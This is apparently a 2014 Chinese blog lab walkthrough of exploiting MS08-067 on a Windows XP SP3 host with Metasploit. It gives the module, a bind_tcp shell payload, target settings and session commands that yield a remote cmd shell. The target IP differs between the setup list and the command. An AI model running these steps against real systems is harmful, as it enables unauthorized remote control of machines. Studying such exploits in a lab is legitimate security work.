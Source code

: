 title: metasploit 利用 ms08_067
date: 2014-10-29 22:11
tags:
- kail
- metasploit
categories:
- metasploit
---

# I、实验环境
- 目标主机  XP SP3 简体中文版
- IP  192.168.49.128

# II、测试过程
## ① 选择exploit模块
```
use exploit/windows/smb/ms08_067_netapi
```
如果不知道ms08_067的具体位置  可以使用search ms08_067
##  ② 选择payload
```
set PAYLOAD windows/shell/bind_tcp
```
查看需要设置的参数
```
show options
```
![](http://img.blog.csdn.net/20141029215838917)

## ③ 设置目标主机
```
set RHOST 192.168.40.128
```
设置目标主机端口
```
set LPORT 5555
```
设置目标的版本号  使用 show targets 查看版本号

![](http://img.blog.csdn.net/20141029215844128)

可以看到 sp3 简体中文版的id 是 41
```
set TARGET 41
```
![](http://img.blog.csdn.net/20141029215848605)
## ④ 查看所有选项是否设置好  show options
![](http://img.blog.csdn.net/20141029215852895)

# III、进行渗透测试   exploit
      
等待一段时间后，获取目标主机的cmd权限
![](http://img.blog.csdn.net/20141029215947640)

# IV、将对目标主机的控制权保存到sessions中

- 命令：  sessions -i 1 重新获取对目标主机的控制权
- 说明：我的BT5是英文版的，不支持中文
![](http://img.blog.csdn.net/20141029215904392)





